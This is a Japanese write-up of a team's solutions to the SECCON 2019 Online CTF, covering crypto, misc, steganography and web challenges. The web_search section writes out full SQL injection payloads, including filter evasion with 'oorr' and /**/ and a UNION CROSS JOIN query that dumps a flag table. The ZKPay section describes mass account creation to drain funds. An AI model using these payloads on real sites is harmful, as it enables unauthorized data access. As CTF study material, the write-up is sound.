 ```yaml
---
title: "SECCON 2019 Online CTF Writeup"
date: 2019-10-20T18:15:23+09:00
draft: true
bigimg: [{src: "/img/seccon-2019-online-ctf.png"}]
tags: ["CTF"]
---
```


[SECCON 2019](https://www.seccon.jp/2019/) 

チーム「./Vespiary」で出て 37 位 2402 点でした。
以下、自分が取り組んだ問題です（チームメンバーと一緒に解いたもの含む）。

{{< toc >}}

# [crypto] coffee_break
ソースコードを読んで逆算するプログラムを書けば良い。

```py
import sys
from Crypto.Cipher import AES
import base64

def decrypt(key, cipher):
    s = ''
    for i in range(len(cipher)):
        c = cipher[i] - 0x20 - (ord(key[i % len(key)]) - 0x20)
        if c < 0:
            c += (0x7e - 0x20 + 1)
        c += 0x20
        s += chr(c)
    return s

key1 = "SECCON"
key2 = "seccon2019"
cipher = AES.new(key2 + chr(0x00) * (16 - (len(key2) % 16)), AES.MODE_ECB)

encoded = "FyRyZNBO2MG6ncd3hEkC/yeYKUseI/CxYoZiIeV2fe/Jmtwx+WbWmU1gtMX9m905"

enc2 = base64.b64decode(encoded)
enc1_ = cipher.decrypt(enc2)

print(decrypt(key1, enc1_))
```

`SECCON{Success_Decryption_Yeah_Yeah_SECCON}`

# [misc] Beeeeeeeeeer
とりあえず与えられたシェルスクリプトを実行してみると、文字が増えたり消えたりするCUIアニメーションが表示される。シェルスクリプトで具体的に何が行われているか知るために**気合**で人力フォーマットと`echo`コマンドを駆使して解読していった。
適宜`bash -x`を使うことで楽に解読できる。

`SECCON{hogefuga3bash}`

# [crypto] ZKPay

signupにめちゃくちゃ時間がかかる。signupクエリを送った後に、homeへ移動してみると普通に利用できることがわかった。そこで、signupした直後にcreateQRをしてみたが、どうやら1分待たないと正常なQRコードが生成されない。

$1,000,000 / $500 = 2000 で自動化が現実的なので、2000個アカウントを生成してメインのアカウントにお金を送るスクリプトを書いた。

実行に3時間かかったが無事flagを得た。

![](https://i.gyazo.com/7be2f37c7e9749a01460b1d82a4c98a7.png)

# [web] web_search

適当に記号を入力してみると、`'`でErrorすることがわかる。
SQL injection を使う問題であることを疑い、色々実験すると、

- 空白文字` `が消える
- `,`が消える
- `or`,`and`が消える
- `oorr`が`or`になる
- `#`が効く
- `/**/`が空白代わりになる

などがわかる。

`#`が効くことからMySQLが使われていることが推測でき、
`'oorr'1'='1'#`で、
```
FLAG
The flag is "SECCON{Yeah_Sqli_Success_" ... well, the rest of flag is in "flag" table. 
Try more!
```
Flagの前半部分を得る。

`flag`テーブルにflagがあるようなので、UNIONを用いてflagを表示させたいが、`,`が消されるのでカラム数を合わせることが難しい。

CROSS JOIN を用いて、

`' OORR '1' = '1' /**/ UNION /**/ SELECT /**/ * /**/ FROM /**/ (SELECT /**/ * /**/ FROM /**/ flag)aaa /**/ CROSS /**/ JOIN /**/ (SELECT /**/ * /**/ FROM /**/ flag)bbb /**/ CROSS /**/ JOIN /**/ (SELECT /**/ * /**/ FROM /**/ flag)ccc#"`

を送信すると、フラグが得られる。

`SECCON{Yeah_Sqli_Success_You_Win_Yeah}`

# [crypto] Crazy Repetition of Codes

crc32は決定的な関数なので、鳩の巣原理よりcrcの値の周期が2^32以下であることがわかる。よって`int('1'*10000) % 周期`の回数crc32を実行すればいい。

# [misc] Sandstorm

![](https://i.gyazo.com/bb6d5672d1d08dbd55fcdfbef4c7384c.png)

画像に`My name is Adam`とあり、010 Editorなどのツールでファイルを見るとインターレースがAdam7になっているので[Adam7 algorithm - Wikipedia](https://en.wikipedia.org/wiki/Adam7_algorithm)が関係していそうとわかる。

これに着想を得て、8ピクセルごとにピクセルを抽出して画像にしてみると、

```py
from PIL import Image

img = Image.open('sandstorm.png')
W, H = img.size

img2 = Image.new('RGBA', (W//8, H//8))

for y in range(0,H//8):
    for x in range(0,W//8):
        img2.putpixel((x,y), img.getpixel((x*8,y*8)))

img2.save('img2.png')
```

![](https://i.gyazo.com/e5ccd541bf310d656aa11d8db1aec3d7.png)

QRコードが得られる。

`SECCON{p0nlMpzlCQ5AHol6}`

